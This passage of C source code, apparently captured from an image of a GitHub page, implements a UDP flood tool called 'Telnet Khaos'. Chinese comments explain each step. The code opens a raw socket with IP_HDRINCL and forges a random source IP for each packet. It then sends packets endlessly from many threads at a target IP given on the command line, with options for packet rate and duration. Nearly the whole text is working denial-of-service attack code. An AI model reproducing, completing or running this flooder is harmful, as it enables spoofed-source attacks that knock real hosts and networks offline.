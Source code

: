 ```c
    int tmp = 1;
    const int* val = &tmp;
    if (setsockopt(s, IPPROTO_IP, IP_HDRINCL, val, sizeof(tmp)) < 0) {  // 设置套接字选项，包含IP头部
        fprintf(stderr, "Error: setsockopt() - Cannot set HDRINCL!\n");
        exit(-1);
    }

    init_rand(time(NULL));  // 初始化随机数生成器
    register unsigned int i = 0;
    while (1) {
        // 发送伪造的UDP包
        sendto(s, datagram, iph->tot_len, 0, (struct sockaddr*)&sin, sizeof(sin));
        // 随机生成伪造的源IP地址
        iph->saddr = (rand_cmwc() >> 24 & 0xFF) << 24 | (rand_cmwc() >> 16 & 0xFF) << 16 | (rand_cmwc() >> 8 & 0xFF) << 8 | (rand_cmwc() & 0xFF);
        iph->id = htonl(rand_cmwc() & 0xFFFFFFFF);  // 随机生成IP包标识符
        iph->check = csum((unsigned short*)datagram, iph->tot_len);  // 重新计算校验和

        pps++;  // 发送的数据包数增加
        if (i >= limiter) {  // 如果达到限制，休眠
            i = 0;
            usleep(sleeptime);
        }
        i++;
    }
}
int main(int argc, char* argv[])
{
    // 检查程序的输入参数是否满足至少5个（包括程序名称）
    if (argc < 5) {
        // 如果参数不足，打印错误信息并退出程序
        fprintf(stderr, "Invalid parameters!\n");
        fprintf(stdout, "Telnet Khaos\nUsage: %s <target IP> <number threads to use> <pps limiter, -1 for no limit> <time>\n", argv[0]);
        exit(-1);  // 非正常退出
    }

    // 打印提示信息，表明正在设置套接字
    fprintf(stdout, "Setting up Sockets...\n");

    // 解析用户传递的参数，将线程数量和PPS限制值从字符串转换为整数
    int num_threads = atoi(argv[2]);  // 线程数量
    int maxpps = atoi(argv[3]);       // 每秒数据包发送限制（PPS）

    limiter = 0;  // 初始化限制器，用于控制发送速度
    pps = 0;      // 初始化数据包发送计数
    pthread_t thread[num_threads];  // 创建一个用于存储线程ID的数组，长度为num_threads

    int multiplier = 20;  // 用于控制时间的倍率，影响主循环的持续时间

    int i;
    // 循环创建指定数量的线程，每个线程都执行flood函数，目标为传递的IP地址
    for (i = 0; i < num_threads; i++) {
        pthread_create(&thread[i], NULL, &flood, (void*)argv[1]);  // 启动flood线程
    }

    // 打印提示信息，表示开始攻击
    fprintf(stdout, "Starting Flood...\n");

    // 根据用户输入的时间，控制主循环的持续时间
    for (i = 0; i < (atoi(argv[4]) * multiplier); i++)
    {
        // 让主线程每次循环等待一段时间
```